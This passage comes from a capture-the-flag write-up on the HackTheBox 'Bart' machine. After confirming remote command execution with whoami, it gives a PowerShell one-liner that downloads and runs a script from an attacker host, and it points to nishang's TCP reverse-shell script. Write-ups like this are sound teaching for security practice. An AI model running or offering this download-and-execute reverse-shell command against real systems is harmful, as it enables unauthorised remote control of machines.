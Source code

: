 ![result-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/result-31.png)

So far so good, lets open the file and pass `whoami` to the script:

![whoami-32](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/whoami-32.png)


There it is, we have RCE. Lets setup a reverse shell. If we can execute commands on the OS, we can use 
a powershell command to download a powershell script from a remote host and execute it. 

```powershell
powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<kali-ip>/shell.ps1')"
```

First, lets host [nishang](https://github.com/samratashok/nishang/Shells)'s `Invoke-PowershelTcp.ps1` with a python server on our kali machine. Make sure to invoke the reverse shell at the buttom:

![nishang-33](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/nishang-33.png)
